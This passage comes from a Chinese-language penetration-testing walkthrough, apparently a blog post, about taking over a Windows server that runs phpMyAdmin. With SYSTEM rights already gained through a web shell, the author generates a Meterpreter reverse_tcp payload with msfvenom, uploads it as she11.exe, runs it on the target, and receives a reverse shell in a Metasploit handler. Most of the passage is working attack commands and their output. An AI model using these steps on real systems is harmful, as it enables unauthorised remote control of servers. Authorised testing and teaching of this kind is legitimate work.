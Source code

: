 ```shell
D:\\HwsApacheMaster\\phpmyadmin\\web> whoami
nt authority\\system
```

哇！**system** 权限。可是比 **Administrator** 管理员用户权限还要大，这也省的我之后的**提权**了。

### 连接 Metasploit

由于菜刀、蚁剑这类工具功能相比于 **MSF** 功能比较欠缺，所以我要再次生成一个木马用来**反弹 shell** 连接 **MSF**。

```shell
$ msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.5.23 LPORT=4444 -f exe -o she11.exe
参数：
    --platform  平台
    -p             payload，有效载荷
    LHOST        本地IP
    LPORT        本地端口
    -f            生成文件类型
    -o            输出文件名
```

将生成的木马通过蚁剑传至服务器上一个有执行权限的目录；虽然我和服务器并不在一个网段（本以为要做内网穿透的），但防火墙为**关闭**状态，依旧能够建立连接。

首先，MSF 先在本地侦听着 4444 端口，等着 shell 反弹回来。

```shell
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.5.23
msf5 exploit(multi/handler) > set LPORT 4444
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.5.23:4444
```

然后使用蚁剑，在 CMD 终端中执行刚刚生成的那个木马文件（she11.exe）

```shell
C:\\Windows\\System32> C:/Windows/System32/she11.exe
```

回车执行这个 **exe** 后，在 MSF 这边就会生成一个 **meterpreter**。

```shell
[*] Started reverse TCP handler on 192.168.5.23:4444
[*] Sending stage (206403 bytes) to 192.168.3.72
[*] Meterpreter session 1 opened (192.168.5.23:4444 -> 192.168.3.72:55580) at 2019-08-14 17:59:57 +0800

meterpreter >
```

`getuid` 获取当前用户，还是 **SYSTEM** 。

```shell
meterpreter > getuid
Server username: NT AUTHORITY\\SYSTEM
```
